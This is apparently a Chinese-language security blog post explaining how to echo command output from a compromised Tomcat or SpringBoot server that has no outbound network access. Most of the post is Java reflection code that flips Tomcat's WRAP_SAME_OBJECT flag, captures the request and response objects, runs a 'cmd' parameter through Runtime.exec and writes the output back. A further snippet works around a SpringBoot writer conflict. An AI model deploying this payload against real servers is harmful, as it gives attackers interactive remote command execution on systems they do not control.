



适用条件：不出网，无法外带数据，需要将命令或代码执行结果显示出来。

`Tomcat`下有个类`org.apache.catalina.core.ApplicationFilterChain`，这个类存放着过滤器链`ApplicationFilterConfig[]`

```java
/*
Implementation of javax.servlet.FilterChain used to manage the execution of a set of filters for a particular request. When the set of defined filters has all been executed, the next call to doFilter() will execute the servlet's service() method itself.
*/
public final class ApplicationFilterChain implements FilterChain {
    private static final ThreadLocal<ServletRequest> lastServicedRequest;
    private static final ThreadLocal<ServletResponse> lastServicedResponse;

    static {
        if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
            lastServicedRequest = new ThreadLocal<>();
            lastServicedResponse = new ThreadLocal<>();
        } else {
            lastServicedRequest = null;
            lastServicedResponse = null;
        }
    }
}
```

类初始化时若开启了`WRAP_SAME_OBJECT`，会设置一个线程本地变量来存储`ServletRequest`和`ServletResponse`的变量副本。

默认`WRAP_SAME_OBJECT`是关闭的，需要设置系统属性`org.apache.catalina.core.ApplicationDispatcher.WRAP_SAME_OBJECT`或`org.apache.catalina.STRICT_SERVLET_COMPLIANCE`为true来开启。

这个类下`internalDoFilter`经过一系列过滤器的`doFilter`调用后，最后调用servlet的service方法。而切换到servlet需要把ServletRequest和ServletResponse传给servlet，最后servlet会把返回信息写入ServletResponse



若这里开启了`WRAP_SAME_OBJECT`，相当于做了一个全局的`ServletRequest`和`ServletResponse`备份，我们就可以在执行Servlet的service方法时拿到这两个对象了。前者可以获取命令参数，后者可以写入命令执行的结果。

因此我们通过反射修改`WRAP_SAME_OBJECT`为true，由于这个字段被final修饰，需要修改其访问修饰符。

```java
try {
    Field WRAP_SAME_OBJECT = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
    Field lastServicedRequest = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
    Field lastServicedResponse = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");

    Field modifiers = Field.class.getDeclaredField("modifiers");
    modifiers.setAccessible(true);
    modifiers.setInt(WRAP_SAME_OBJECT, WRAP_SAME_OBJECT.getModifiers() & ~Modifier.FINAL);
    modifiers.setInt(lastServicedRequest, lastServicedRequest.getModifiers() & ~Modifier.FINAL);
    modifiers.setInt(lastServicedResponse, lastServicedResponse.getModifiers() & ~Modifier.FINAL);

    WRAP_SAME_OBJECT.setAccessible(true);
    lastServicedRequest.setAccessible(true);
    lastServicedResponse.setAccessible(true);

    boolean on = WRAP_SAME_OBJECT.getBoolean(null);

    if (!on || lastServicedRequest.get(null) == null || lastServicedResponse.get(null) == null) {
        lastServicedRequest.set(null, new ThreadLocal<ServletRequest>());
        lastServicedResponse.set(null, new ThreadLocal<ServletResponse>());
        WRAP_SAME_OBJECT.set(null, true);
    } else {
        ThreadLocal<ServletResponse> response = (ThreadLocal<ServletResponse>) lastServicedResponse.get(null);
        ThreadLocal<ServletRequest> request = (ThreadLocal<ServletRequest>) lastServicedRequest.get(null);

        String cmd = request.get().getParameter("cmd");
        if (cmd != null) {
            ServletResponse servletResponse = response.get();
            Writer writer = servletResponse.getWriter();
            InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            byte[] b = new byte[1024];
            int a = -1;
            while ((a = inputStream.read(b)) != -1) {
                baos.write(b, 0, a);
            }
            writer.write(new String(baos.toByteArray()));
            writer.flush();
        }
    }
} catch (Exception e) {
    e.printStackTrace();
}
```

需要执行两次，第一次开启`WRAP_SAME_OBJECT`，给`lastServicedRequest`和`lastServicedResponse`初始化。第二次才真正执行命令并返回。

在SpringBoot下，上面的代码会报错

原因在`org.apache.catalina.connector.Response#getOutputStream`



这里`usingWriter`为`true`，而在我们代码中往response写数据时，通过`ServletResponse.getWriter().write()`写入

`getWriter`设置了`usingWriter`为`true`



因此我们在`getWriter()`操作后，用反射修改`usingWriter`为false即可

```java
Field f = servletResponse.getClass().getDeclaredField("response");
f.setAccessible(true);
Response res = (Response) f.get(servletResponse);
Field usingWriter = res.getClass().getDeclaredField("usingWriter");
usingWriter.setAccessible(true);
usingWriter.setBoolean(res, false);
```